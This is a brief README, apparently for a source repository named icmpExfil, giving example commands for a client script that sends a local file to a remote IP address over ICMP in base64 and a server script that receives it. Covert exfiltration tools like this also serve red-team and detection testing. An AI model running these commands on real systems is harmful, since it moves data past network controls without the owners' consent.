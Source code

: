 # icmpExfil

## Example Usage

**client:** sudo ./icmp_exfil_client.py -f ./myFile -d 128.237.11.23 -c 100 -s 1000 -e base64

**server:** sudo ./icmp_exfil_server.py -e base64
